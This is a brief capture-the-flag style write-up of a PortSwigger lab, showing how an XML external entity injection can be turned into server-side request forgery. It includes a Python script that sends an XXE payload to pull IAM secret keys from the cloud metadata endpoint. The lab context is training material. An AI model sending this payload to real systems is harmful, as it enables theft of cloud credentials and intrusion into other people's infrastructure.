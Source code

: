 # XXE SSRF Portswigger

## 2023-12-30, Joakim Oscarsson

### Problem description
This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is http://169.254.169.254/. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.

To solve the lab, exploit the XXE vulnerability to perform an SSRF attack that obtains the server's IAM secret access key from the EC2 metadata endpoint.

### Misc
By including the <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]> and querying &xxe inside a tag we get the response "Invalid product ID: <leaked information>" which we can use to dig out secret information.

### Solution

```python

import requests

url = "https://0abb00740473052a81b345da00f20061.web-security-academy.net/product/stock"

xml = '''<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck><productId>&xxe;</productId><storeId>&xxe;</storeId></stockCheck>'''

response = requests.post(url, data=xml)

print(response.text)

```